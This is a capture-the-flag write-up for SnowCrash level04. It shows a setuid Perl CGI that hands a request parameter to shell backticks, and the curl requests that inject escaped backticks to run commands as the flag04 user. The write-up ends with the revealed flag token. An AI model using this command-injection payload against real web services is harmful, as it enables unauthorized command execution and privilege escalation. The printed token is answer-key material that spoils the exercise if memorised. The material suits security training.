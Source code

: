 # Start / Analyse

```sh
level04@SnowCrash:~$ ./level04.pl
Content-type: text/html

```

looks like a cgi

Yes it is

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

A CGI in perl listening on lcoalhost:4747 and echo the given param "x"

Only interssing thing with strace is the same `read(3, "#!/usr/bin/perl\n# localhost:4747"..., 8192) = 152`

```sh
level04@SnowCrash:~$ perl level04.pl x=test
Content-type: text/html

test
```

ther is an elevation of privilege:
```sh
level04@SnowCrash:~$ ll
[...]
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl*
```

# Test input

In perl, like in many other language an even shell there is back tick "`" that is an alias of exec_shell() and can execute and return the result of the command pass as a string

If we do : 
```sh
level04@SnowCrash:~$ perl level04.pl && curl -X POST localhost:4747 --data x="`id`"
Content-type: text/html

```
> don't work, id command expend in the terminal and give his return to the cgi

but:
```sh
level04@SnowCrash:~$ perl level04.pl && curl -X POST localhost:4747 --data x="\`id\`"
Content-type: text/html


uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
```
> work the cgi exec the command with uid flag04

so:

```sh
level04@SnowCrash:~$ perl level04.pl && curl -X POST localhost:4747 --data x="\`getflag\`"
Content-type: text/html


Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
